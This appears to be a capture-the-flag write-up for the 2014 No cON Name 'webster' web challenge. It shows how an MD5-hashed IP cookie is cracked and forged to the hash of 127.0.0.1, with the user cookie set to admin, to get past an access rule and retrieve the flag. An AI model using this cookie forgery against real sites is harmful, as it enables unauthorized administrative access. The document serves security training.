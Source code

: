 ## No cON Name CTF 2014 - webster (Web 200)
##### 14/09/2014 (20hr)
___

### Description: 
> Super-secure cloud service.
>
> https://ctf.noconname.org/webster/
___
### Solution
Try to login in the form. After few attempts login as test:test
Let's look the .htaccess file:
```
   Order allow,deny  
   Deny from all  
   Satisfy all  
```

In order to satisfy this rule we should be on the same lan with the server.
Let's look at the cookies:
```
	loc=c869d000ef5c6fdfa128b058d2865512;
```

After few tries, we finally can crack the hash:
```
	md5(10.128.29.136) = c869d000ef5c6fdfa128b058d2865512
```

Let's set the ip to localhost (127.0.0.1):
```
	MD5(127.0.0.1): f528764d624db129b32c21fbca0cb8d6
```

Change the from: ``` Cookie: valid_user=test; loc=c869d000ef5c6fdfa128b058d2865512; ```

to:              ``` Cookie: valid_user=admin;loc=f528764d624db129b32c21fbca0cb8d6; ```

Finally make a request to:
```
	https://ctf.noconname.org/webster/content.php?op=4
```

and get the flag: **NCN_f528764d624db129b32c21fbca0cb8d6**
___
